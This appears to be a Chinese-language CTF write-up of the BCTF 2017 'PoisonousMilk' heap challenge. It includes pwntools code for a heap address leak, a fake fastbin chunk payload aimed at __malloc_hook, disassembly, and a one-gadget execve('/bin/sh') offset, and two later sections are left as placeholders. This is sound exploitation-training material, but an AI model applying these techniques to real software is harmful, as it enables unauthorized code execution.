



## Struct

通过逆向和调试可以比较清楚的理解程序中相关的结构，因为没找到好的画图软件，所以贴上dalao的一个图orz<br>


同时附上链接<br>
[usf poisonous_milk](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)


## Vuln



对结构中的color指针进行赋值<br>
但是如果我什么都不输入，这里就不会对color指针赋值，那么我只要先申请1个堆<br>
另外一个是drink函数，可以对其进行利用。<br>

```c++
+0   str_xxxx0xxxxxx
+8   ???????----size
+16  color_p0---str_p0
```

接着释放它，由于程序中先释放字符串对应的堆，然后释放指针相关的，所以释放完之后，color处对应就有指向堆的指针heap_fkp0<br>
再申请0，并且输入color table中不存在的元素，使得color处的值不变(不赋值，此时就是heap_fkp0)<br>
而heap_fkp0正好指向的地方存了堆相关的指针<br>
下面只要通过查看该结构信息即可获取堆的地址<br>


```python
def s_leak():
    put_milk("a"*0x08+"\n", "red")
    remove_milk(0)
    fake_chunk0 = p64(0x91).ljust(0x44, 'c') + '\n'
    put_milk(fake_chunk0, "none")
    view_milk()
    io.recvuntil("[0] [")
    lk_heap_addr = u64((io.recvuntil("]")[:-1].ljust(8, chr(0)))) - 0x78
    log.info("heap address: "+hex(lk_heap_addr))
```

## exp

### 模仿babyuse
参考 [uafio](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)<br>
在和babyuse一样尝试之后，利用0x55作为伪size，但是在实际运行之后，在malloc中出问题了，分析了一下。

```assembly
.text:000000000008361B                 test    al, 4
.text:000000000008361D                 lea     rcx, dword_3C3B20
.text:0000000000083624                 jz      short loc_83633
.text:0000000000083626                 lea     rax, [rdx-10h]
.text:000000000008362A                 and     rax, 0FFFFFFFFFC000000h
.text:0000000000083630                 mov     rcx, [rax]
```
发现malloc会堆fastbin的地址检查，要是在**0FFFFFFFFFC000000h**之外<br>

这里就会出错。orz<br>

### orz

后来问了下博客的dalao，原来，应该是0x56主要可以绕过，是我没有看清楚orz，感谢dalao耐心解答。<br>
因为之前还有个对size的检查。 如果是0x56(0x‭0101 0110‬)<br>
```assembly
mov     rax, [rdx-8]
test    al, 2
jnz     short loc_7F93D30EE63
```
这个就可以直接返回正确了 :)<br>
主要代码如下<br>
```python
payload = chr(0)*3
payload += p64(0)*4
payload += p64(libc_base_addr+0x3C3AF8)     # hook offset
payload += p64(0)
payload += p64(libc_base_addr+0x3C3B78)*2
payload = payload.ljust(0x41, chr(0)) + '\n'
put_milk(payload, "red")
```

### overwrite

首先想到的是能不能覆盖个rop的地址，偏移到输入字符串的位置，但是在覆盖了 hook_malloc 之后<br>
程序立即调用了malloc，而且偏移起来比较麻烦。<br>
```assembly
call    @create_milk_string     ; 申请milk string
mov     r15, rax
mov     edx, 19h
lea     rsi, aInputYourMilkS ; "Input your milk's color: "
lea     rdi, _ZSt4cout  ; std::cout
call    cout
lea     rdi, [rsp+68h+s2]
mov     esi, 0Fh
call    @get_str
mov     edi, 10h        ; unsigned __int64
call    malloc          ;
```
而最简单的是直接覆盖一个 execve("/bin/sh")地址。<br>
用ida搜索text就能找到 "/bin/sh"字符串，然后再找找，就能找到合适的地址执行exece，本机的libc中是0xf0567这个


### house of orange

新姿势

### 另外

新姿势

## Reference

1. http://brieflyx.me/2017/ctf-writeups/bctf-2017-2pwn/
2. https://www.xctf.org.cn/information/4603ec7f0031408acca073b80edb63744f92bacb/
